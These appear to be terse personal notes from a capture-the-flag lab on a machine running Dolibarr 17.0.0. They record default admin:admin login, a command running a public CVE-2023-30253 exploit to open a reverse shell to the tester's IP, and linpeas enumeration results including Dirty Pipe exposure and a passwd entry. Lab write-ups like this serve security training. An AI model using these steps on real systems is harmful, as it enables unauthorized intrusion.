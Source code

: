 Apache/2.4.41

![[Pasted image 20240914093128.png]]

`[Dolibarr 17.0.0](https://www.dolibarr.org)`

![[Pasted image 20240914093237.png]]

Login web-app:

admin:admin

Exploit for reverse shell

```php
python3 pwn.py http://crm.board.htb admin admin 10.10.14.19 6667
```

https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253?tab=readme-ov-file

**Linpeas**

OS: Linux version 5.15.0-107-generic

Sudo version 1.8.31

Details: https://dirtypipe.cm4all.com/
   Exposure: probable

127.0.0.1:33060
127.0.0.1:3306

larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash

/etc/apache2/sites-available/000-default.conf

https://wiki.dolibarr.org/index.php?title=Configuration_file


